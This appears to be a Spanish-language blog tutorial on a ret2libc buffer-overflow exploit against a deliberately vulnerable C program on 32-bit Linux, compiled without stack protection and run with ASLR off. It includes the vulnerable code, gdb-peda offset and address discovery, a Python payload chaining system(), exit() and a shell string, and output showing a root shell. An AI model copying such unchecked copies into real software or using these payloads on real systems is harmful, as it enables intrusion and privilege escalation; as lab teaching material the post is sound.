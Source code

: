 ```yaml
---
layout: post
title: BoF - ret2libc
subtitle: "BoF - ret2libc"
tags: [BoF,Linux]
---
```


## Configuración

### Código

```
#include<stdio.h>
#include<string.h>

void vulnerable(char *buff){
        char buffer[64];
        strcpy(buffer,buff);
        printf("%s",buffer);
        printf("\n");
}

void main(int argc, char **argv){
        vulnerable(argv[1]);
}
```

### Compilación

```
gcc -mpreferred-stack-boundary=2 -fno-stack-protector buffer.c -o buff
```

### ASLR deshabilitado

```
cat /proc/sys/kernel/randomize_va_space
0
```

## ret2libc

La idea detrás de `ret2libc` es en lugar de inyectar shellcode y saltar a la dirección que contiene ese shellcode, podemos usar las funciones que ya están en la biblioteca `C`. Por ejemplo:  
Podemos llamar a la función **system()** y hacer que se ejecute `/bin/sh`.  
También necesitaremos usar la función **exit()** para hacer que el programa salga limpiamente.

Así que nuestra payload estará formado por: dirección `system()` + dirección `exit()` + dirección `/bin/sh`

Antes de empezar comprobemos las protecciones del ejecutable:

```
noroot@ubuntu:~/buffer_overflow$ checksec --file buff
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   buff
```

## Explotación

Establecemos un patron de tamaño 100.

```
gdb-peda$ pattern arg 100
```

Corremos el ejecutable. El búffer se desbordará y veremos exactamente donde ocurrió el desbordamiento

```
gdb-peda$ r                                                                                                                            
Starting program: /home/noroot/buffer_overflow/buff 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJ
AAfAA5AAKAAgAA6AAL'                                                
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL                                   
                                                                   
Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]                                                       
EAX: 0xa ('\n')              
EBX: 0xb7fc0000 --> 0x1acda8                                       
ECX: 0xb7fc1898 --> 0x0       
EDX: 0xa ('\n')                                                                                                                        
ESI: 0x0                                                           
EDI: 0x0                                                           
EBP: 0x41644141 ('AAdA')                                           
ESP: 0xbffff0c4 ("IAAeAA4AAJAAfAA5AAKAAgAA6AAL")                   
EIP: 0x41413341 ('A3AA')                                           
EFLAGS: 0x10296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41413341
[------------------------------------stack-------------------------------------]
0000| 0xbffff0c4 ("IAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0004| 0xbffff0c8 ("AA4AAJAAfAA5AAKAAgAA6AAL")
0008| 0xbffff0cc ("AJAAfAA5AAKAAgAA6AAL")
0012| 0xbffff0d0 ("fAA5AAKAAgAA6AAL")
0016| 0xbffff0d4 ("AAKAAgAA6AAL")
0020| 0xbffff0d8 ("AgAA6AAL")
0024| 0xbffff0dc ("6AAL")
0028| 0xbffff0e0 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41413341 in ?? ()
```

Obteniendo el tamaño del offset.

```
gdb-peda$ pattern search          
Registers contain pattern buffer: 
EIP+0 found at offset: 68         
EBP+0 found at offset: 64         
Registers point to pattern buffer:
[ESP] --> offset 72 - size ~28    
[...]
```

Obteniendo las direcciones

```
gdb-peda$ p system
$3 = {<text variable, no debug info>} 0xb7e53310 <__libc_system>
gdb-peda$ p exit
$4 = {<text variable, no debug info>} 0xb7e46260 <__GI_exit>
gdb-peda$ find bin/sh
Searching for 'bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xb7f75d4c ("bin/sh")
```

Dirección del sistema: `0xb7e53310`  
Dirección de salida: `0xb7e46260`  
Dirección de shell: `0xb7f75d4c`

## Shell

Escribimos nuestro exploit

```
#!/usr/bin/python

import struct

buffer = "A"*68
system = struct.pack("I", 0xb7e53310)
exit = struct.pack("I", 0xb7e46260)
bin_shell = struct.pack("I", 0xb7f75d4c)

payload = buffer + system + exit + bin_shell

print(payload)
```

Obtenemos una shell

```
noroot@ubuntu:~/buffer_overflow$ ./buff $(python exploit.py)
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA3`bL]
# whoami
root
# tty
/dev/pts/6
```
